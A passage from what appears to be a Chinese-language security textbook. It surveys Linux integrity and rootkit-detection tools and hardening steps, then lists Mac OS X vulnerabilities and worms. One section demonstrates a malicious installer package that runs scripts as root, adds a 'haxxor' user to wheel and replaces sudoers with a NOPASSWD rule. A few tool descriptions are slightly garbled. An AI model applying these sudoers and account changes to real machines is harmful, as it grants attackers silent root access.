- `strings.c`：快速且粗糙的字符串替换

## 工具：Tripwire

`Tripwire` 是一个系统完整性检查工具。它创建一个数据库，监控二进制签名、大小、预期的大小变化等。它包括用于创建原始数据库的每个文件内容的四个加密校验和。当软件执行系统检查时，它将系统与原始数据库的基线进行比对。如果发生修改，`Tripwire` 将通过违规警报向系统管理站报警，并通过电子邮件通知系统管理员。违规警报将显示哪些文件和目录被修改、添加或删除。

## 工具：Bastille Linux

`Bastille Linux` 是一组脚本，通过更改权限和禁用功能来加强标准 Linux 系统的安全性。如果过度使用，它还会阻碍合法的工作。因此，`Bastille` 更适合加固专用的日志主机或文件服务器，而不是开发系统。

## 工具：DTK

`DTK`——欺骗工具包——是一套设计用于浪费入侵者时间的虚假守护进程和服务。

## 工具：Rkdet

`Rkdet` 是一个旨在捕获某人安装 `rootkit` 或运行数据包嗅探器的守护进程。它被设计为持续运行，并具有小资源占用量和无害的名称。当触发时，它发送电子邮件，追加到日志文件，并禁用网络或停止系统。

## 工具：Secure Linux 项目


NSA 有一个安全 Linux 项目，其中包括强制访问控制架构。安全增强 Linux 内核执行强制访问控制策略，将用户程序和系统服务器限制在它们执行工作所需的最小权限范围内。通过这种限制，当这些用户程序和系统守护进程受到损害时（例如通过缓冲区溢出或配置错误），它们造成破坏的能力会被减少或消除。该限制机制独立于传统的 Linux 访问控制机制运行。它没有 root 超级用户的概念，并且不具有传统 Linux 安全众所周知的缺点。

## 工具：Rootkit Hunter

Rootkit Hunter 是一个检查正在运行 UNIX 的系统上是否存在 rootkit 和其他不需要的工具的工具。可以配置 Rootkit Hunter 在每天指定的时间运行，从而每日执行一次。如果 Rootkit Hunter 检测到 rootkit，则需要重新安装操作系统。

## 工具：Carboneite

Carboneite 是一个有助于检测 rootkit 的 Linux 内核模块。检测 rootkit 很困难，因为很难检查文件修改。rootkit 通常试图通过修改可能暴露其踪迹的文件来隐藏其踪迹。然而，Carboneite 可以检测基于 LKM 的 rootkit。

## 工具：Rscan

Rscan 是一个检测 Adore 和 Knark 等基于 LKM 的 rootkit 的扫描器。

## 工具：Saint Jude

Saint Jude 是一个开发内核级 IDS 机制以保护基于主机网络完整性的项目。

## 工具：Chkrootkit

Chkrootkit（图 1-30）检测以下 rootkit、蠕虫和 LKM：

- lrk3, lrk4, lrk5, lrk6（及其变体）
- Solaris rootkit
- FreeBSD rootkit
- Törn（及其变体）
- Ambient's Rootkit (ARK)
- Ramen 蠕虫
- rh[67]-shaper
- RSHA
- 罗马尼亚 rootkit
- RK17
- Lion 蠕虫
- Adore 蠕虫
- LPD 蠕虫
- kenry-rk
- Adore LKM
- ShitC 蠕虫
- Omega 蠕虫
- Wormkit 蠕虫
- Maniac-RK
- dsc-rootkit
- Ducoci rootkit
- x.c 蠕虫

```
Searching for Ramen Worm files and dirs... nothing found
Searching for Maniex files and dirs... nothing found
Searching for RK17 files and dirs... nothing found
Searching for Ducoci rootkit... nothing found
Searching for Adore Worm... nothing found
Searching for ShitC Worm... nothing found
Searching for Omega Worm... nothing found
Searching for Sadeniad/LIS Worm... nothing found
Searching for Wonkit... nothing found
Searching for Showtes... nothing found
Searching for OpitickKit... nothing found
Searching for T.R.K... nothing found
Searching for Meithra... nothing found
Searching for LOC rootkit... nothing found
Searching for Romanian rootkit... nothing found
Searching for Suckit rootkit... nothing found
Searching for Vole rootkit... nothing found
Searching for GMKey rootkit... nothing found
Searching for TC2 Worm default files and dirs... nothing found
Searching for Anonviving rootkit default files and dirs... nothing found
Searching for ZK rootkit default files and dirs... nothing found
Searching for SDKi rootkit default files and dirs... nothing found
Searching for anamaliees in shell history files... nothing found
Checking asp... not infected
Checking bindshell... not infected
Checking lkm... You have    1 process hidden for readdir command
You have    1 process hidden for ps command
Warning: Possible LKM Trojan installed
Checking rexdec5... not found
Checking smurfen... Checking 'w58508'... not infected
Checking wted... nothing deleted
Checking sgalper... not infected
Checking slapper... not infected
Checking c.#... nothing deleted
root@sys:~/#chkrootkit-0.42b#
```

**图 1-30** Chkrootkit 可以帮助发现入侵。

- RST.b 特洛伊木马
- duarawkz
- knark LKM
- Monkit
- Hidrootkit
- Bobkit
- Pizdakit
- t0rn v8.0
- Showtee
- Optickit
- T.R.K
- MithRa的内核
- George
- SucKIT
- Scalper
- Slapper A, B, C 和 D
- OpenBSD rk v1
- Illogic 内核
- SK 内核
- sebek LKM
- 罗马尼亚内核
- LOC 内核
- shv4 内核
- Aquatica 内核
- ZK 内核
- 55808.A 蠕虫
- TC2 蠕虫
- Volc 内核
- Gold2 内核

# Linux 工具：应用安全

### Whisker

Rain.Forest.Puppy的CGI漏洞扫描器Whisker，是第一个包含检查常见漏洞所有方法的工具，具有针对HTTP响应代码做出反应的智能扫描功能以及入侵检测规避工具。Whisker是用Perl脚本编写的。

### Flawfinder

Flawfinder是一个Python程序，它搜索源代码中的潜在安全缺陷，并根据风险严重程度列出这些缺陷。风险级别取决于函数及其值和参数。

### 高级入侵检测环境 (AIDE)

AIDE（高级入侵检测环境）是Tripwire的免费替代品。AIDE中使用的配置文件类似于Tripwire，因此从一个转换到另一个很容易。AIDE在指定期望的权限/校验和的方法方面比Tripwire更好。AIDE的配置信息保存在`aide.conf`文件中。它根据配置文件中的正则表达式规则创建数据库。一旦数据库初始化，就可以用来验证文件的完整性。这个第一个AIDE数据库是系统正常状态的快照，也是衡量所有后续更新和变更的标准。AIDE可以配置以自定义检查的详细程度。它递归遍历宿主系统上的每个目录，以确定哪些文件应包含在数据库中。文件与用户指定的文件及路径名称进行匹配。在使用AIDE之前，应该创建一个初始数据库。为AIDE创建数据库的命令是 `aide -i -c /etc/aide.conf`。

该命令创建文件系统的第一幅快照。在将系统接入网络之前应创建数据库。AIDE可以不加`-i`选项运行，以检查是否有任何更改。如果更改似乎是真实的，则用户可以使用`-u`选项更新数据库，以防止AIDE报告自上次更新以来的变更。`-u`选项不会覆盖数据库。以下是AIDE中需要查找的几个状态检查定义：

- `i` (inode number)：inode number的变更表示文件已被删除或文件名已更改。
- `s` (file size)：文件大小的变更表示文件内容已更改。
- `m` (modification time)：显示文件最后一次修改的时间。

# Linux 工具：加密

### Stunnel


Stunnel是一个允许用户在SSL（安全套接字层）内部加密任意TCP连接的程序，在UNIX和Windows上均可用。Stunnel让用户通过由Stunnel提供加密而不改变守护程序代码的方式来保护非SSL感知的守护程序和协议（如POP3、IMAP、NNTP和LDAP）。Stunnel提供了inetd的相同功能，并增加了SSL加密。Stunnel还支持TCP Wrappers。

### OpenSSH/SSH

SSH（安全外壳）是一个用于登录远程机器和在远程机器上执行命令的程序。它在两个主机之间通过不安全的网络提供安全加密通信。它被描述为带有加密和RSA认证的R命令替代方案。

### GnuPG

GnuPG是PGP的替代品。由于它不使用专利的IDEA算法，因此可以无限制地使用。

# Linux 工具：日志和流量监控器

### MRTG (多路由流量绘图器)

多路由流量绘图器（MRTG）是一个用于监控网络链接上流量负载的工具。MRTG生成包含PNG图像的HTML页面，提供流量的实时视觉表示。MRTG由一个使用SNMP读取路由器流量计数器的Perl脚本和一个记录流量数据并创建代表被监控网络连接上流量的图表的快速C程序组成。

以下是MRTG的关键特性：

- 它是可移植的。
- 它附带一组使配置和设置变得非常简单的配置工具。
- 其生成的网页外观具有高度可配置性。

### Swatch

Swatch最初是为了主动监控通过UNIX syslog实用程序写入日志文件的消息而编写的。作为一个简单的演示，用户可以输入 `perl swatch --examine=FILENAME`，其中`FILENAME`是用户想要查看其内容的文件。

### Timbersee

Timbersee是一个与Swatch非常相似的程序。它使用正则表达式来监控日志文件中的重要消息，但其区别在于它可以同时监视多个日志文件，并且不会分出额外的进程。

### Logsurf

Logsurf被设计为实时监控系统上任何基于文本的日志文件。收集的大量日志信息（例如syslog守护程序处理的所有消息或信息服务的日志文件）使得手动检查日志以寻找异常活动几乎不可能。Logsurf实现了日志文件监控的自动化。

### IPLog

IPLog是一个TCP/IP流量记录器。它能够记录TCP、UDP和ICMP流量。其功能包括检测TCP端口扫描、TCP空扫描、FIN扫描、UDP和ICMP smurf攻击、虚假TCP标志（扫描器用于检测正在使用的操作系统）、TCP SYN扫描、TCP Xmas扫描、ICMP ping洪水、UDP扫描和IP碎片攻击的能力。它能够在混杂模式下运行并监控网络上所有主机的流量。它使用`libpcap`从网络读取数据，并且可以移植到任何支持`pthreads`且`libcap`能正常工作的系统。

### Ntop

Ntop是一个显示网络使用情况的网络流量探针，类似于流行的`top` UNIX命令所做的。Ntop基于`libpcap`，因此它可以在几乎每个UNIX平台以及Win32上运行。

Ntop的用户可以使用Web浏览器（例如Netscape）浏览Ntop（充当Web服务器）的流量信息，并获取网络状态转储。在后一种情况下，Ntop可以被视为一个带有嵌入式Web界面的简单RMON类代理。

### Linux安全审计工具 (LSAT)

Linux安全审计工具（LSAT）是用于Linux和UNIX的安装后安全审计员。它监控系统配置和系统上的网络设置，检查常见的安全/配置错误以及不需要的包。LSAT的所有模块都是用C编写的。LSAT软件包中的一些模块如下：

- `checkdotfiles`：此模块检查系统上的forward、exrc、rhosts和netrc文件。
- `checkfiles`：此模块检查`/usr/var`目录中的文件是否具有root所有权，除了检查`/tmp`和`/var/tmp`是否设置了粘滞位之外。
- `checkftpusers`：此模块检查`/etc/passwd`中的所有帐户是否都在`/etc/ftpusers`中。
- `checkinetd`：检查`/etc/inetd.conf`或`/etc/xinetd.d/*`。
- `checkkbd`：检查在Linux下是否禁用了Ctrl+Alt+Alt+Del功能。它还检查在Solaris下是否启用了KEYBOARD_DISABLE。
- `checklogging`：一个简单的检查，以确保auth和authpriv日志设施已开启。
- `checkmodules`：检查以确保可加载内核模块已启用。
- `checknetp`：验证没有接口处于混杂模式。
- `checkopenfiles`：使用LSOV（如果LSOV已安装）检查系统上的所有打开文件。
- `checkpasswd`：此模块检查`/etc/passwd`中不需要的帐户。它还检查只有root的UID=0。
- `checkmd5`：对所有常规文件执行系统范围的MD5校验和，仅在-use -m开关时执行。

# Linux 安全对策

### 物理安全

- 将计算机锁在安全的地方。

### 密码安全

- 不要使用容易猜到的密码。
- 不要与另一个人共享你的帐户。
- 检查具有空密码的用户。

# 网络安全

- 默认情况下拒绝来自网络的访问。
- 停止所有未使用的服务，如 sendmail 和 NFS。
- 定期查看 `/var/log` 中的系统日志，特别是 `/var/log/secure`。

# Linux 加固步骤

以下是加固 Linux 的一些步骤：

1. 选择一个广泛使用且能及时发布安全更新的 Linux 发行版。
2. 预先规划文件系统的布局。
3. 不要安装不必要的软件包。
4. 更改默认密码并创建普通用户。
5. 禁用不必要的守护进程和网络服务。
6. 禁用通过 SSH 进行远程 root 登录。
7. 设置并启用 IPTables。
8. 配置与安全相关的内核参数。
9. 安装基于主机的入侵检测系统（HIDS）。
10. 应用最新的更新。
11. 精简所有已安装的软件。
12. 提高登录和用户的安全性。
13. 增加审计和日志信息。

### 章节总结

- Linux 正逐渐流行，并迅速成为一个稳定的工业级操作系统。
- 一旦获知目标系统的 IP 地址，攻击者就可以开始端口扫描，寻找系统漏洞以获取访问权限。
- Linux 有可用的密码破解工具。
- Linux 的嗅探器以及数据包组装/分析工具赋予了攻击者在处理其他操作系统时同样的优势。
- 特洛伊木马、后门和蠕虫在 Linux 环境中也很常见。
- 与其他系统一样，应建立一套完善的、集成的流程来应对存在的威胁。

## 复习题

1. 列出 Linux 操作系统的优点。
2. Linux 操作系统有哪些缺陷？
3. 什么是 Rootkit？
4. 在 Linux 中如何编译程序？
5. 描述 chroot 监狱的功能。
6. 描述 Linux 的文件和目录结构。
7. 描述用于导航 Linux 文件系统的命令。
8. 列出 IPChains 和 IPTables 之间的区别。


## 动手项目

- 安装、配置并编译 Linux 内核。
  - 步骤 1：
    - 以 root 身份登录。
    - 运行 `cp linux-2.4.2.tar.gz /usr/src/`。
    - 运行 `cd /usr/src/`。
    - 检查 `/usr/src/linux` 中的旧内核源码。
    - 通过运行 `mv /usr/src/linux linux-X.X.X` 将当前版本移动为备份，以便将来使用。
    - 运行 `tar -zxvf linux-2.4.2.tar.gz`。
    - 通过运行 `mv /usr/src/linux /usr/src/linux-2.4.2` 移动新的内核源码。
    - 通过运行 `ln -s /usr/src/linux-2.4.2 /usr/src/linux` 创建指向新内核源码的链接。
  - 步骤 2：
    - 配置内核。
    - 在 `/usr/src` 中运行 `cd` 进入内核源码目录。
    - 如果您更喜欢文本模式，请输入 `make menuconfig`，但推荐 `xconfig`。
  - 步骤 3：
    - 返回命令行并输入 `make dep` 以进行内核编译。
  - 步骤 4：
    - 通过输入 `make clean` 清理编译过程中创建的所有文件（.o 或对象文件）。
  - 步骤 5：
    - 通过运行 `make bzImage` 创建可启动的 Linux 映像（实际的 Linux 文件）。
    - 通过运行 `make modules` 制作用于安装的新模块。
    - 完成编译后，输入 `make modules_install`。


- 通过运行 `mv /usr/src/linux-2.4.17/arch/i386/boot/bzImage /boot/vmlinuz-2.4.17` 将 bzImage 文件移动到内核位置。

- 步骤 6：

  - 将新文件定位到 Linux 启动管理器 LILO 或 GRUB。

  - 编辑文件 `/etc/lilo.conf` 或 `/etc/grub.conf` 并添加以下行：

    ```
    image=/boot/vmlinuz-2.4.17label=linux-2.4.17
    root=/dev/hda3
    read-only
    ```

  - 保存 `lilo.conf` 或 `grub.conf` 文件。

  - 运行 LILO 程序 `/sbin/lilo`。如果使用 GRUB，可以跳过此步骤。

  - 重启机器。

- 下载并安装内核补丁。

  - 从 `http://www.linux.org` 下载 Linux 内核补丁。

  - 将下载的内核补丁复制到 `/usr/src/linux` 目录。

  - 通过运行 `cd /usr/src/linux` 导航到下载目录。

  - 使用 `tar`、`gzip` 或其他解压缩工具将补丁解压到 `/usr/src/linux` 目录。

  - 应在 `/usr/src/linux` 目录中创建一个名为 `patch-2.x.x` 或 `patch-2.x.x-yy` 的文件。

  - 要将补丁应用于内核，请运行 `patch -p1 < patch-2.x.x` 或 `patch -p1 < patch-2.x.x-yy`。

- 阅读有关 Linux 安全的内容。

  - 导航到学生资源中心的第 1 章。

  - 打开 `Security Evaluation of the Linux Operating System.pdf` 并阅读内容。

- 阅读有关 Linux 内核黑客技术的内容。

  - 导航到学生资源中心的第 1 章。

  - 打开 `Linux Kernel Hacking.pdf` 并阅读内容。



# Mac OS X 黑客技术

## 目标

完成本章后，您应该能够：

- 识别 Macintosh OS 中的漏洞
- 识别可以感染 Macintosh OS 的蠕虫和病毒
- 熟悉 Macintosh OS 的防病毒软件
- 熟悉 Macintosh OS 的安全工具

## 关键术语

`对称多处理（SMP）` 一种计算机体系结构，其中多个处理器共享相同的内存，并被分配不同的任务来执行

## 案例示例

许多 Mac 用户为其 Apple 计算机的安全性感到自豪。一位居住在瑞典的 Mac 爱好者向攻击者发起公开挑战，要求他们获取其 Mac Mini 系统的 root 控制权。他将该 Mac Mini 设置为服务器，并赋予参与者对该目标系统的本地客户端访问权限。

赢得该挑战的攻击者仅用 30 分钟就获取了系统的 root 控制权。根据赢得挑战的个人所说，在 Mac OS X 上获取 root 访问权限实际上非常容易。他利用了一个 Apple 未发布或打补丁的漏洞。据安全研究员 Neil Archibald 称，Mac OS X 中存在多种漏洞，攻击者可以利用这些漏洞。攻击者可以在系统上获得完全权限，以删除文件和文件夹或安装恶意应用程序。

# 介绍 Mac OS X 黑客技术

本章专注于 Mac OS X 的黑客技术。它介绍了 Mac OS X 的一些功能，然后讨论了影响该操作系统的漏洞。本章最后描述了可用于 Mac OS X 的各种防病毒和安全工具。

# 介绍 Mac OS

Apple 邀请开发者在 Apple 网站 `http://developer.apple.com/macosx/` 上创建用于 Mac OS X 的产品。Mac OS X 包含 Cocoa，这是一组框架、API 和配套运行时，允许使用众多开源 Web、数据库、脚本和开发技术。内置的 Xcode 工具使 Mac OS X 成为一个多面化的开发平台。它包含 Automator、Core Data、Core Animation 和 Core Image 等技术，使 Mac OS X 成为最先进的操作系统。

开发者可以访问这些功能并创建应用程序，通过 AppleScript 共享视频和控制 iChat。Mac OS X 包含一个 64 位、开源的 UNIX 内核。OS X 中包含了带有 Mach 3.0 微内核的 FreeBSD 5 UNIX 发行版。其他功能包括抢占式多任务处理、对称多处理（SMP）和受保护的内存。对称多处理是一种计算机体系结构，其中多个处理器共享相同的内存，并被分配不同的任务来执行。

Mac OS X 具有面向对象的应用程序结构、过程 API 和紧密集成的 Java SE、BSD UNIX API 和库以及 X11 实现的运行时灵活性。开发者可以使用各种免费工具来构建、编译、调试、分析和改进应用程序。开发平台包括基于 GCC 4 编译器和 GNU 调试器之上的 Xcode 3 层。Mac OS X 的图形支持包括强大的图形技术，如 OpenGL、Core Animation 和 Core Image。图形层处理应用程序窗口化、2D 和 3D 绘制、动画以及多媒体。为了支持其国际市场，Apple 提供了转换实用工具，以一致地管理区域设置、日期、货币和度量系统。Mac OS X 的 Unicode 工具处理多样化的文本系统，并且国际化和本地化软件版本可以从单个应用程序图标启动。

# Mac OS X 中的漏洞

## 构造的 URL 漏洞

远程未认证的黑客可能会利用 Mac OS X 处理特制 URL 的方式来执行任意代码。当用户访问恶意设计的网页时，应用程序可能会自动启动并执行破坏性代码。这是由于 Terminal.app 在处理 URL 方案时存在的输入验证问题所致。此漏洞影响 Apple Mac OS X v10.4.11、Mac OS X Server v10.4.11、Mac OS X v10.5 和 v10.5.1，以及 Mac OS X Server v10.5 和 v10.5.1。

## CoreText 未初始化指针漏洞

Apple Mac OS X CoreText 包含一个未初始化指针漏洞，这可能允许远程未认证的攻击者在易受攻击的系统上执行任意代码。Apple Mac OS X CoreText 是用于处理 Mac OS X Tiger（10.4）及更高版本上文本的框架。如果 Mac OS X Apple CoreText 未正确初始化指针，则可能发生内存损坏。使用 CoreText 框架处理文本的应用程序可能易受攻击。通过说服用户查看特制的文本，远程未认证的 attackers 可能能够在易受攻击的系统上执行任意代码或导致拒绝服务。此漏洞已在 Mac OS X 10.4.11 和 Apple 安全更新 2007-008 中修复。

## ImageIO 整数溢出漏洞

Apple 的 ImageIO 框架包含一个整数溢出漏洞，这可能允许攻击者在易受攻击的系统上执行代码。图形交换格式（GIF）是许多 Mac OS X 应用程序支持的流行图像格式。ImageIO 允许应用程序读取和写入各种图像文件格式，包括 GIF。整数溢出漏洞仅存在于处理 GIF 文件的过程中。当用户打开恶意构造的图像时，会导致应用程序崩溃或任意代码执行。此问题不影响早于 Mac OS X v10.4 的系统。远程未认证的 attackers 可以执行任意代码或导致拒绝服务状况。恶意构造的 GIF 文件可以通过网页提供，作为电子邮件附件，或在电子邮件内部。Apple 已发布 Mac OS X 10.4.9 用于 Mac OS X 10.4（Tiger）系统，以及安全更新 2007-003 用于 Mac OS X 10.3（Panther）系统，以响应此问题。此更新通过对 GIF 文件执行额外的验证来解决此问题。

## DirectoryService 漏洞

Mac OS X 中的 DirectoryService 漏洞可能允许非特权 LDAP 用户更改本地 root 密码。这是由 DirectoryService 中的实现缺陷引起的。此问题已在 Mac OS X 10.4.9（用于 Mac OS X 10.4（Tiger）系统）和 Mac OS X 10.3（Panther）的安全更新 2007-003 中修复。

## iChat UPnP 缓冲区溢出漏洞

iChat 处理特制的通用即插即用（UPnP）数据包的方式可能遭到局域网内攻击者的利用。这个缓冲区溢出漏洞存在于 iChat 中用于在家庭 NAT 网关上创建端口映射的 UPnP IGDT（互联网网关设备标准化设备控制协议）代码中。局域网内未经身份验证的攻击者可以执行任意代码或导致拒绝服务。

## ImageIO 内存损坏漏洞


Apple 的 ImageIO 框架包含一个内存损坏漏洞，可能允许攻击者在易受攻击的系统上执行代码。RAW 图像文件格式是一种流行的图像格式，受到许多 Apple Mac OS X 应用程序的支持。ImageIO 框架允许应用程序读取和写入 RAW 格式。在处理 RAW 图像的过程中存在内存损坏问题。当用户打开一个恶意制作的图像时，攻击者可以触发该问题，这可能导致应用程序意外终止或任意代码执行。远程未经身份验证的攻击者可能能够执行任意代码或导致拒绝服务状况。用于利用此漏洞的特制 RAW 文件可能通过网页提供，作为电子邮件附件或包含在电子邮件中，或者通过其他方式说服用户打开该恶意文件。此问题不影响 Mac OS X v10.4 之前的系统。针对 Mac OS X 10.4 (Tiger) 系统的 Mac OS X 10.4.9 和针对 Mac OS X 10.3 (Panther) 系统的安全更新 2007-003 解决了此问题。此更新通过对 RAW 图像执行额外验证来解决该问题。

## Safari 中的代码执行漏洞

Apple Safari Web 浏览器包含一个漏洞，可能允许攻击者执行任意代码。Safari 在处理 `feed:` URL 时存在内存损坏问题。当用户访问恶意设计的 URL 时，远程未经身份验证的攻击者可能导致应用程序意外终止或任意代码执行。此问题不影响运行 Mac OS X 10.5 或更高版本系统的系统，但确实影响随 Mac OS X 10.4 及更早版本发布的 Safari 版本。为解决此问题，请安装 Mac OS X 10.5 或更高版本，或更新 Safari。此更新对 `feed:` URL 执行额外验证，并在 URL 无效时提供错误消息。

## UFS 整数溢出漏洞

`ffs_mountfs()` 函数中存在整数溢出，该函数用于 Mac OS X 处理 UFS 磁盘映像。Unix 文件系统 (UFS) 是 UNIX 和其他类似操作系统使用的文件系统。Apple OS X 支持 UFS、分区和映像。当 OS X 系统打开 UFS 磁盘映像时，可能会发生整数溢出错误。攻击者需要说服用户打开一个特制的磁盘映像来触发溢出。Safari Web 浏览器的默认设置将 UFS 磁盘映像视为安全的文件类型，并在下载后自动打开它们。

能够供应特制 DMG 文件的远程未经身份验证的攻击者可以利用此漏洞导致受影响的系统崩溃或执行任意代码。

此漏洞可以通过以下步骤禁用 **下载后打开“安全”文件** 选项来防止：

1. 选择“偏好设置”菜单；将打开图 2-1 中的窗口。

2. 点击“通用”选项卡。

3. 为下载文件设置特定文件夹。

4. 取消选择 **下载后打开“安全”文件** 选项。

## 内核 “fpathconf()” 系统调用漏洞

Mac OS X 内核中的一个漏洞可能允许经过身份验证的本地攻击者导致拒绝服务。`fpathconf()` 系统调用提供了一种方法，使应用程序能够确定与文件描述符相关的可配置系统限制或选项变量的当前值。随 Mac OS X 内核 (XNU) 提供的 `fpathconf()` 版本被编程为在传递与其无法处理的其他类型关联的文件描述符（例如由 `sem_open()` 系统调用返回的命名信号量描述符）时发生恐慌。经过身份验证的本地攻击者可能导致受影响的系统因内核恐慌而崩溃。这种情况导致拒绝服务。此问题已在针对 Mac OS X 10.4 (Tiger) 系统的 Mac OS X 10.4.9 以及针对 Mac OS X 10.3 (Panther) 系统的安全更新 2007-003 中得到解决。



**图 2-1** 此屏幕显示了用户为避免 UFS 整数溢出漏洞应在 Safari 中选择的选项。

## UserNotificationCenter 权限提升漏洞

Apple 的 UserNotificationCenter 包含一个权限提升漏洞。此漏洞发生是因为 UserNotificationCenter 以提权的特权运行，同时处理由具有正常特权的用户提交的输入。拥有有效登录凭证的用户可以以提权的特权运行命令或修改系统文件。

## Mac OS 中的其他漏洞

恶意用户可以利用以下在 Mac OS X 中提到的任何漏洞导致拒绝服务：

- 当在 BOMArchiveHelper 中解压格式错误的 ZIP 存档时，`BOMStackPop()` 函数中存在一个可被利用的错误。

- 在处理格式错误的 BMP 图像时，`ReadBMP()` 函数中存在一个可被在 Safari 或预览应用程序中利用的错误。

- 在处理格式错误的 GIF 图像时，`CFAAllocatorAllocate()` 函数中存在一个错误，当用户访问恶意网站时，可被像利用 Safari 一样利用。

- 在处理格式错误的 TIFF 图像时，`_cg_TIFFSetField()` 和 `PredictorVSetField()` 函数中存在两个错误，可被在 Finder、预览、QuickTime 或 Safari 应用程序中利用。

## 格式错误的安装程序包如何破解 Mac OS X

Apple 安装程序程序中有一个关键的接口问题，允许安装程序获取 root 访问权限。安装程序在访问 Admin 时请求 AdminAuthorization 密钥。Admin 用户帐户提供对 root 级别的完全访问权限，并且在安装期间不向用户提供任何密码。AdminAuthorization 密钥和 RootAuthorization 密钥之间的区别在于 admin 用户没有任何密码。攻击者创建的恶意包中的授权级别设置为 AdminAuthorization。root 拥有的文件可以被修改，命令可以以 root 身份执行，或者可以在用户不知情的情况下安装 setuid-root 程序。大多数 Mac OS X 用户运行由系统创建的默认管理员用户。另一个问题是，出于预防措施，使用 RootAuthorization 密钥创建的包可以被修改为 AdminAuthorization。如果账户保持登录状态，这些包可以在没有管理员密码的情况下安装。

运行安装程序直至完成需要管理权限。在安装之前，应用程序安装程序会检查当前用户是否是系统管理员。如果用户检查退出，安装程序包将安装完整的程序。然后在系统中安装前置和后置脚本。它不需要用户的任何管理员账户密码。因此，个人可以打开格式正确的安装程序包，并使用已登录的系统和平包中的脚本创建新帐户。

## 已演示的损害

安装程序包需要管理员访问临时文件，用于前置和后置脚本。攻击者用无需密码要求的版本替换 `/etc/sudoers` 文件。如果任何系统以管理员身份登录，则打开并运行该包。所有脚本操作均以 root 身份执行。

### UID 结果

前置和后置脚本将用户报告为 root：

```
cat /tmp/uid
uid=0(root) gid=0(wheel) groups=0(wheel), 81(appserveradm), 79(appserverusr), 80(admin)
```

### 管理员创建结果

可以使用 `nicl` 在后置脚本中添加用户。后来，它被添加到 wheel 组。

```
nicl . -read /groups/wheel users
users: root haxxor
```

### Sudoers 结果

运行前：

将 sudoers 文件与包版本进行比较。

```
diff /etc/sudoers sudoers
20c20
< %admin    ALL=(ALL) ALL
---
> %admin    ALL=(ALL) NOPASSWD: ALL
```

运行后：

```
diff /etc/sudoers sudoers
```

因此，系统不能以 admin 用户身份运行日常活动。如果以管理员身份运行，则无法安装来自非知名来源的包。

## Mac OS X 中的蠕虫和病毒

### OSX/Leap-A 蠕虫

OSX/Leap-A 是一种即时消息蠕虫，通过 iChat 消息系统传播。它通过名为 latestpics.tgz 的文件将自身发送到受感染用户的联系人列表中可用的联系人。此蠕虫试图通过用蠕虫副本覆盖原始应用程序并将原始应用程序存储在文件的资源分叉中来感染最近使用的应用程序。归档文件由 latestpics（蠕虫可执行文件）和 .latestpics（将可执行文件伪装为 JPEG 图像的隐藏资源文件）组成。

该蠕虫自身安装为应用程序挂钩（application hook）。如果系统以 root 用户身份运行，则 `/Library/InputManagers/` 目录下的 apphook 子目录会被删除。如果系统以非 root 用户身份运行，则 `~/Library/InputManagers/` 目录会被删除。该蠕虫用以下文件替换它：

- apphook/Info

- apphook/apphook.bundle/Contents/Info.plist

- apphook/apphook.bundle/Contents/MacOS/apphook

受感染的应用程序文件具有以下扩展属性：


- 名称：`oompa`
- 值：`loompa`

此蠕虫创建以下临时文件：
- `/tmp/pic.gz`
- `/tmp/pic`
- `/tmp/latestpics`
- `/tmp/latestpics.tar`
- `/tmp/latestpics.tar.gz`
- `/tmp/latestpics.tgz`
- `/tmp/apphook` 下的若干文件

## Inqtana.A：F-Secure 蠕虫

基于 Java 的 Inqtana.A 蠕虫通过蓝牙传播，影响未受保护的 Mac OS X 10.4 系统。此蠕虫以 OBEX 推送请求的形式到达，需要用户接受传输的数据。一旦传输完成，蠕虫便利用目录遍历漏洞复制其文件。然后，该蠕虫在重启时激活。激活的蠕虫会搜索接受 OBEX 推送传输的设备，并将自身发送到这些设备上。文件 `com.openbundle.plist` 和 `com.pwned.plist` 被放置在一个系统启动时可以被调用的位置。`openbundle.plist` 文件解压蠕虫组件，而 `com.pwned.plist` 执行蠕虫。

## 针对 OS X Inqtana.A 的预防措施

OS X/Inqtana.A 仅影响 Mac OS X 10.4。为了在 OS X 10.4 中保护系统免受此蠕虫的侵害，请执行以下步骤：
1. 通过安装 Apple 的更新来修补系统。
2. 删除以下已被蠕虫入侵的文件：
   - `/Users/worm-support.tgz`
   - `/Users/InqTest.class`
   - `/Users/com.openbundle.plist`
   - `/Users/com.pwned.plist`
   - `/Users/libavetanaBT.jnilib`
   - `/Users/javax`
   - `/Users/ld`
   - `/Users/[username]/Library/LaunchAgents/com.pwned.plist`
   - `/Users/[username]/Library/LaunchAgents/com.openbundle.plist`

## Mac 中的病毒：宏病毒

宏病毒对 Macintosh 用户构成了巨大危险。第一个真正的宏病毒攻击了 Microsoft Word 文件，随后宏病毒迅速流行起来。即使随着用户意识的提高，由于 Microsoft 软件的普遍性，这些病毒仍继续造成巨大损害。宏病毒被创建用于攻击其他 Microsoft 应用程序，如 Excel、Visio、PowerPoint 和 Access，但 Microsoft Word 病毒是最流行的。宏病毒是一个真实的威胁，因为它们在不同平台上都有效；它们可以破坏 Macintosh 和 Windows 系统。

